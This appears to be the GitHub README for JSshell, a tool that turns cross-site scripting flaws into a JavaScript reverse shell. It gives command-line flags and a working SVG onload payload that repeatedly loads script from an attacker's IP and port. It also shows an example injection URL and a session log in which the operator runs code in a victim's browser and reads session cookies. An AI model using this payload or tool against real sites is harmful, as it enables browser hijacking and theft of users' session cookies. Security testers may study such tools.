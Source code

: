 # JSshell
JSshell - a JavaScript reverse shell. This using for exploit XSS remotely, help to find blind XSS, ...

This tool works for both Unix and Windows operating system and it can running with both Python 2 and Python 3. This is 
a big update of JShell - a tool to get a JavaScript shell with XSS by s0med3v. JSshell also doesn't require Netcat (different from other javascript shells).

# Usage
#### Generate JS reverse shell payload:  `-g`
#### Set the local port number for listening and generating payload (By default, it will be set to 4848):  `-p`
#### Set the local source address for generating payload (JSshell will detect your IP address by deault):  `-s`
#### Set timeout for shell connection (if the user exit page, the shell will be pause, and if your set the timeout, after a while without response, the shell will automatically close):  `-w`
#### Execute a command when got the shell:  `-c`

#### Example usages:
- `js.py`
- `js.py -g`
- `js.py -p 1234`
- `js.py -s 48.586.1.23 -g`
- `js.py -c "alert(document.cookie)" -w 10`

#### An example for running JSshell:
This is an example for step-by-step to exploit remote XSS using JSshell.

First we will generate a reverse JS shell payload and set the shell timeout is 20 seconds:

```
# whoami
root
# ls
README.md   js.py
# python3 js.py -g -w 20
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>

Listening on [any] 4848 for incoming JS shell ...
```

Now paste this payload to the website (or URL) that vulnerable to XSS:

`https://vulnwebs1te.com/b/search?q=<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>`

Access the page and now we will see that we have got the reverse JS shell:

```
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>

Listening on [any] 4848 for incoming JS shell ...
Got JS shell from [75.433.24.128] port 39154 to DESKTOP-1GSL2O2 4848
$ established
$ the
$ shell
$
$
$ help
JSshell using javascript code as shell commands. Also supports some commands:
help                  This help
exit, quit            Exit the JS shell
$
```
Now let's execute some commands:

```
$ var test = 'hacked'
$ alert(hacked)

```
And the browser got an alert:  `hacked`

```
$ prompt(document.cookie)

```
And the browser print the user cookies:  `JSESSION=3bda8...`

```
$ exit
# whoami
root
# pwd
/home/shelld3v
```

And we quited!


# Author
This created by shelld3v, hacking at HackOne and Bugcrowd with a secret account! This tool is inspired by JShell (s0med3v), using the BruteLogic payload. JSshell 2.0 will has some new features that include:

- More payloads for `<img>`, `<script>`, ...
- Some shortcut commands: print the current session, domain, endpoint, ...
- Better GUI  
...
